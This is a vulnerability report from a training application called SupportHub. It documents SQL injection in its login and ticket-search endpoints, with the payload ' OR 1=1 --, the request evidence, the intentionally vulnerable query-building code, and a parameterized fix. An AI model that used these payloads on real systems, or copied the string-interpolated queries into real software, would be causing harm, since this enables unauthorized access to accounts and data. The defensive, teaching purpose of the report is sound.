





# SQL Injection Vulnerability

## Vulnerability Summary

| Field | Details |
|---|---|
| Application | SupportHub — Vulnerable Edition |
| Vulnerability | SQL Injection |
| Severity | Critical |
| CWE | CWE-89 |
| Database | SQLite |
| Affected Features | User Login and Ticket Search |
| Affected Endpoints | `POST /api/auth/login` and `GET /api/tickets/search` |
| Authentication Required | No for login; Yes for ticket search |
| Testing Environment | Authorized local training environment |

## Description

SupportHub constructs SQL statements by directly concatenating user-controlled input into database queries.

Two vulnerable application features were identified:

1. The login endpoint concatenates the submitted email address and password into an authentication query.
2. The ticket-search endpoint concatenates the search value into multiple `LIKE` conditions.

An attacker can inject SQL syntax that changes the intended logic of these queries.

During authorized testing, a harmless authentication-bypass payload successfully signed in without a valid password. A second payload modified the ticket-search query and caused it to return all available tickets.

## Affected Endpoints

```text
POST /api/auth/login
GET /api/tickets/search?q=
```

## Affected Files

```text
src/routes/auth.routes.js
src/routes/ticket.routes.js
public/js/login.js
public/js/app.js
public/index.html
public/dashboard.html
```

## Preconditions

- SupportHub is running locally.
- The database has been initialized with demonstration data.
- The tests are performed only inside the authorized training environment.
- No real accounts, passwords, or production data are used.

# Test 1: Authentication Bypass

## Normal Login Test

1. Start SupportHub:

   ```powershell
   npm run dev
   ```

2. Open:

   ```text
   http://127.0.0.1:3000
   ```

3. Enter an invalid email address and password.

4. Click:

   ```text
   Sign in
   ```

5. Confirm that the application displays:

   ```text
   Invalid email or password.
   ```

## Authentication-Bypass Test

Enter the following value in the email field:

```text
' OR 1=1 --
```

Enter any non-empty value in the password field:

```text
SQLI_TEST
```

Click:

```text
Sign in
```

## Observed Result

The application accepts the request and creates an authenticated session without requiring a valid email address or password.

The user is redirected to:

```text
/dashboard.html
```

This confirms that the injected SQL modified the authentication query and bypassed the intended credential check.

## Network Evidence

The browser sends a request similar to:

```http
POST /api/auth/login
Content-Type: application/json
```

Request body:

```json
{
  "email": "' OR 1=1 --",
  "password": "SQLI_TEST"
}
```

The server returns a successful response instead of an authentication error:

```json
{
  "message": "Signed in successfully.",
  "user": {
    "id": 1,
    "name": "Demonstration User",
    "role": "Support Administrator",
    "initials": "DU"
  }
}
```

The exact demonstration user returned may depend on the first active record selected by SQLite.

## Resulting SQL Query

The vulnerable application builds a query similar to:

```sql
SELECT id, full_name, email, role, initials
FROM users
WHERE email = '' OR 1=1 --'
  AND password = 'SQLI_TEST'
  AND status = 'Active'
```

The `OR 1=1` condition evaluates to true.

The SQLite comment marker causes the remainder of the condition, including the password comparison, to be ignored.

# Test 2: Ticket Search Manipulation

## Normal Search Test

1. Sign in to SupportHub using a demonstration account.
2. Open the `Tickets` page.
3. Enter a normal search term, such as:

   ```text
   analytics
   ```

4. Press `Enter`.
5. Confirm that the application displays only matching tickets.

## SQL Injection Search Test

Enter the following harmless test payload into the global ticket-search field:

```text
' OR 1=1 --
```

Press:

```text
Enter
```

## Observed Search Result

The application returns all available ticket records instead of tickets matching the submitted search term.

This demonstrates that the search value changes the logic of the SQL `WHERE` clause.

The initial training database contains ten demonstration tickets. The exact number may be higher if additional tickets have been created during testing.

## Search Network Evidence

The browser sends a request similar to:

```http
GET /api/tickets/search?q='%20OR%201%3D1%20--
```

After URL decoding, the server receives:

```text
' OR 1=1 --
```

The server returns ticket records that do not contain the submitted search text, confirming that the original filtering condition was bypassed.

## Resulting Search Query

The vulnerable query becomes similar to:

```sql
SELECT t.id,
       t.subject,
       t.description,
       t.status,
       t.priority,
       t.updated_label AS updated,
       c.contact_name AS customer,
       c.company_name AS customerCompany,
       COALESCE(u.full_name, 'Unassigned') AS assignee
FROM tickets t
JOIN customers c ON c.id = t.customer_id
LEFT JOIN users u ON u.id = t.assignee_id
WHERE t.subject LIKE '%' OR 1=1 --%'
   OR t.description LIKE '%' OR 1=1 --%'
   OR c.contact_name LIKE '%' OR 1=1 --%'
ORDER BY t.id DESC
```

The injected condition makes the `WHERE` clause true for every ticket. The comment marker causes the remaining SQL text to be ignored.

## Expected Secure Behavior

The application should treat all submitted values as data rather than executable SQL syntax.

For the login endpoint:

- Invalid credentials must always be rejected.
- SQL characters in the email or password must not change the query structure.
- Passwords must be securely hashed and verified outside the SQL query.

For the ticket-search endpoint:

- The search value must be bound as a query parameter.
- SQL syntax must be treated as ordinary search text.
- Only records matching the submitted search value should be returned.

The authentication-bypass request should return:

```json
{
  "error": "Invalid email or password."
}
```

The search payload should return no matching tickets unless a ticket actually contains that literal text.

## Vulnerable Login Code

The affected login implementation is located in:

```text
src/routes/auth.routes.js
```

The email address and password are concatenated directly into the SQL query:

```js
const sql = `
  SELECT id, full_name, email, role, initials
  FROM users
  WHERE email = '${email}'
    AND password = '${password}'
    AND status = 'Active'
`;

const user = db.prepare(sql).get();
```

Because `email` and `password` are controlled by the client, they can change the SQL query structure.

## Vulnerable Ticket-Search Code

The ticket-search implementation is located in:

```text
src/routes/ticket.routes.js
```

The search value is inserted directly into multiple `LIKE` expressions:

```js
const query = String(req.query.q || '');

const sql = `
  SELECT t.id,
         t.subject,
         t.description,
         t.status,
         t.priority,
         t.updated_label AS updated,
         c.contact_name AS customer,
         c.company_name AS customerCompany,
         COALESCE(u.full_name, 'Unassigned') AS assignee
  FROM tickets t
  JOIN customers c ON c.id = t.customer_id
  LEFT JOIN users u ON u.id = t.assignee_id
  WHERE t.subject LIKE '%${query}%'
     OR t.description LIKE '%${query}%'
     OR c.contact_name LIKE '%${query}%'
  ORDER BY t.id DESC
`;

const tickets = db.prepare(sql).all();
```

The query must use bound parameters instead of string interpolation.

## Root Cause

The vulnerability exists because the application:

1. Trusts values received from the client.
2. Concatenates untrusted values into SQL statements.
3. Does not use parameterized queries for login or search.
4. Stores and compares demonstration passwords as plain text.
5. Allows injected SQL operators and comments to change query logic.
6. Uses database results to create an authenticated session without safely validating the credentials.

## Security Impact

An attacker who successfully exploits these vulnerabilities may be able to:

- Bypass authentication.
- Access another user's account.
- Obtain unauthorized application privileges.
- Read confidential database records.
- Bypass search and filtering restrictions.
- Extract database structure and stored information.
- Modify or delete database records if an injectable write operation exists.
- Compromise the confidentiality and integrity of application data.

Because the login vulnerability permits authentication bypass, the overall severity is considered Critical.

## Evidence

### Authentication Payload Entered



### Successful Authentication Bypass



### Login Network Request and Response



### Ticket Search Payload



### All Tickets Returned



## Recommended Remediation

The secured edition should:

1. Use parameterized queries for every database operation.
2. Never construct SQL queries using string concatenation or interpolation.
3. Store passwords using a strong password-hashing algorithm such as Argon2id or bcrypt.
4. Retrieve the user by email and verify the password hash separately.
5. Return a generic authentication error for invalid credentials.
6. Apply input-length and format validation.
7. Use a database account with minimum required privileges where applicable.
8. Avoid returning database errors or query details to the browser.
9. Log authentication failures and suspicious input securely.
10. Add automated tests for SQL Injection payloads.

## Secure Login Example

The user record should be retrieved using a parameterized query:

```js
const user = db.prepare(`
  SELECT id,
         full_name,
         email,
         role,
         initials,
         password_hash
  FROM users
  WHERE email = ?
    AND status = 'Active'
`).get(email);
```

The supplied password should then be checked against the stored password hash:

```js
const passwordIsValid = await bcrypt.compare(
  password,
  user.password_hash
);
```

A database query should never compare a plain-text password supplied by the user with a stored plain-text password.

## Secure Ticket-Search Example

The search endpoint should bind the same value to each placeholder:

```js
const searchPattern = `%${query}%`;

const tickets = db.prepare(`
  SELECT t.id,
         t.subject,
         t.description,
         t.status,
         t.priority,
         t.updated_label AS updated,
         c.contact_name AS customer,
         c.company_name AS customerCompany,
         COALESCE(u.full_name, 'Unassigned') AS assignee
  FROM tickets t
  JOIN customers c ON c.id = t.customer_id
  LEFT JOIN users u ON u.id = t.assignee_id
  WHERE t.subject LIKE ?
     OR t.description LIKE ?
     OR c.contact_name LIKE ?
  ORDER BY t.id DESC
`).all(
  searchPattern,
  searchPattern,
  searchPattern
);
```

With parameter binding, SQL control characters are treated as part of the search value rather than executable SQL syntax.

## Verification Criteria for the Secured Edition

The vulnerability will be considered fixed when:

- Valid accounts can still sign in.
- Invalid email addresses and passwords are rejected.
- The authentication-bypass payload cannot create a session.
- SQL characters in the email and password are treated as data.
- Passwords are stored as secure hashes.
- Normal ticket searches still work correctly.
- The search payload does not return unrelated tickets.
- Login and search use parameterized queries.
- Database errors and SQL statements are not returned to users.
- Automated security tests confirm that both endpoints resist SQL Injection.

## Conclusion

SQL Injection was successfully reproduced in two SupportHub features.

The login endpoint accepted an injected condition that bypassed the password check and created an authenticated session. The ticket-search endpoint accepted an injected condition that caused the query to return all available tickets.

These results confirm that SupportHub constructs SQL statements using untrusted user input instead of parameterized queries.